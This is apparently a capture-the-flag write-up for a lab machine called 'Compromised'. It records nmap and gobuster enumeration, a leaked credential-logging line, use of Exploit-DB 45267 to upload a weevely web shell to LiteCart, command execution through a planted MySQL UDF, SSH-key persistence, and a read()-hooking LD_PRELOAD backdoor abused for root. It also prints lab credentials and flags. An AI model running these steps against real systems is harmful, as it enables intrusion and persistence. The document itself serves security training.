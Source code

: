 ```yaml
---
host:Compromised
ip:10.129.2.19
ipv6:
os: Ubuntu Linux
kernel:
arch:
domain:
domain.fqdn:
domain.sid:
user:b3473551de7e3ce0dc41304a6129cecc
root:9d31a3a78b2f76b8deafcfc3fa78a2d7
app:Apache 2.4.29
app:OpenSSH 7.6p1
app:LiteCart 2.1.2
vuln:E-DB:45267 - Authenticated file upload
cred:mysql:root:changethis
cred:litecart:admin:theNextGenSt0r3!~
hash:admin:44c79f6669819c0185822c587597b46c98c3cff90512318cb84d8e7c190de8b4
---
```


# System: Compromised (10.129.2.19)


## Enumeration

**Enumerate common ports**
> sudo nmap -n -T4 --top-ports=50 10.129.2.19 -oG enum/nmap.top50.grep.txt -oN enum/nmap.top50.txt
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

**Enumerate all ports**
> sudo nmap -sV -n -T4 -p- 10.129.2.19 -oG enum/nmap.tcp.grep.txt -oN enum/nmap.tcp.txt
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```


### Port 80 - HTTP server

Default vhost - compromised.htb
LiteCart
email:admin@compromised.htb
vuln:E-DB:45267 - Authenticated file upload - No credentials yet
http://compromised.htb/shop/robots.txt
http://compromised.htb/shop/en/feeds/sitemap.xml


#### gobuster

> gobuster dir -u 'http://compromised.htb/' -w tools/common.txt -x php -o enum/gobuster.compromised.htb.txt
```
/backup (Status: 301)
/server-status (Status: 403)
```

http://compromised.htb/backup/a.tar.gz


#### a.tar.gz

> tar zxf a.tar.gz
*NOT a gzip file*
> tar xf a.tar.gz
/.sh.php - 404 on server

/includes/config.inc.php
cred:mysql:root:changethis
Password encryption salt:
```
kg1T5n2bOEgF8tXIdMnmkcDUgDqOLVvACBuYGGpaFkOeMrFkK0BorssylqdAP48Fzbe8ylLUx626IWBGJ00ZQfOTgPnoxue1vnCN1amGRZHATcRXjoc6HiXw0uXYD9mI
```

/admin/login.php
```php
//file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
```
Debug during development?

http://compromised.htb/shop/admin/.log2301c9430d8593ae.txt
```
User: admin Passwd: theNextGenSt0r3!~
```
cred:litecart:admin:theNextGenSt0r3!~


## Foothold

### E-DB:45267

Convert to python3
> 2to3-2.7 -w 45267.py
```
python3 45267.py -t 'http://compromised.htb/shop/admin/' -u 'admin' -p 'theNextGenSt0r3!~'
```
```
Shell => http://compromised.htb/shop/admin/../vqmod/xml/SDQLQ.php?c=id
```
Blank response (200 - file uploaded corrected)
Uploaded phpinfo();
disabled_functions() include all shell commands
Uploaded weevely shell


## Exploitation

### Enumeration

/etc/passwd
```
sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
red:x:1001:1001::/home/red:/bin/false
```

/var/www/html/shop/includes/config.inc.php
```
// Database
  define('DB_TYPE', 'mysql');
  define('DB_SERVER', 'localhost');
  define('DB_USERNAME', 'root');
  define('DB_PASSWORD', 'changethis');
  define('DB_DATABASE', 'ecom');
  define('DB_TABLE_PREFIX', 'lc_');
  define('DB_CONNECTION_CHARSET', 'utf8');
  define('DB_PERSISTENT_CONNECTIONS', 'false');
```
cred:mysql:root:changethis


### Database - localhost/ecom

> SELECT * FROM lc_users;
```
| 1 | 1 | admin | 44c79f6669819c0185822c587597b46c98c3cff90512318cb84d8e7c190de8b4 |  | 10.10.14.88 | 10.10.14.88 | 0 | 58 | 0000-00-00 00:00:00 | 0000-00-00 00:00:00 | 2021-01-26 20:06:05 | 2021-01-26 20:06:04 | 2020-05-28 00:39:04 | 2020-05-28 00:39:04 |
```
hash:admin:44c79f6669819c0185822c587597b46c98c3cff90512318cb84d8e7c190de8b4

LOAD_FILE() - does not work
INTO OUTFILE - does not work
Checked existing UDF libraries:
> ls -al /usr/lib/mysql/plugin/
```
-rw-r--r-- 1 root root  16296 Apr 29  2020 libmysql.so
```

libmysql is not a UDF...
> SELECT * FROM mysql.func;
```
+----------+---+-------------+----------+
| exec_cmd | 0 | libmysql.so | function |
+----------+---+-------------+----------+
```

> SELECT exec_cmd('id');
```
uid=111(mysql) gid=113(mysql) groups=113(mysql)
```


### mysql user

Via exec_cmd() UDF
```
ls -al ~/.ssh | grep authorized_keys
echo 'SSHKEY' >> ~/.ssh/authorized_keys
```
> ssh mysql@compromised.htb
> ls -al
```
-rw-------  1 mysql mysql     1680 May  8  2020 ca-key.pem
-rw-r--r--  1 mysql mysql     1112 May  8  2020 ca.pem
-rw-r--r--  1 mysql mysql     1112 May  8  2020 client-cert.pem
-rw-------  1 mysql mysql     1676 May  8  2020 client-key.pem
-rw-r--r--  1 root  root         0 May  8  2020 debian-5.7.flag
drwx------  3 mysql mysql     4096 May  9  2020 .gnupg
-rw-------  1 mysql mysql     1680 May  8  2020 private_key.pem
-rw-r--r--  1 mysql mysql      452 May  8  2020 public_key.pem
-rw-r--r--  1 mysql mysql     1112 May  8  2020 server-cert.pem
-rw-------  1 mysql mysql     1680 May  8  2020 server-key.pem
-r--r-----  1 root  mysql   787180 May 13  2020 strace-log.dat
```
> grep -i 'pass' strace-log.dat
```
22102 03:11:06 write(2, "mysql -u root --password='3*NLJE"..., 39) = 39
22227 03:11:09 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=3*NLJE32I$Fe"], 0x55bc62467900 /* 21 vars */) = 0
```

### Lateral move
> su sysadmin
```3*NLJE32I$Fe```
*Works!*

> ls -al
```
-r--r----- 1 root sysadmin   33 Jan 26 21:02 user.txt
```
> cat user.txt
```
b3473551de7e3ce0dc41304a6129cecc
```


## Privilege Escalation

> cat /etc/ld.so.preload
```
/lib/x86_64-linux-gnu/libdate.so
```
> objdump -T /lib/x86_64-linux-gnu/libdate.so
```
0000000000001060 g    DF .text	00000000000000cd  Base        read
```
*read() syscall is being hooked*

> objdump -s -j .rodata /lib/x86_64-linux-gnu/libdate.so
```
 2000 72656164 002f6269 6e2f7368 00        read./bin/sh.
```

> objdump -M intel -d /lib/x86_64-linux-gnu/libdate.so
*dlsym() for real read()*
*Password set 1 byte at a time into buffer*
*if password is in read() buffer, setuid/setgid/execve('/bin/sh')*

password in hex: 32776b654f5534736a7638346f6b2f

> python3 -c "print(bytearray.fromhex('32776b654f5534736a7638346f6b2f').decode())"
*This crashes the server connection - a good sign*
```
2wkeOU4sjv84ok/
```

> passwd
> 2wkeOU4sjv84ok/
> id
```
uid=0(root) gid=0(root) groups=0(root),113(mysql)
```
> ls -al /root
```
-r--------  1 root root   33 Jan 26 21:02 root.txt
```
> cat /root/root.txt
```
9d31a3a78b2f76b8deafcfc3fa78a2d7
```
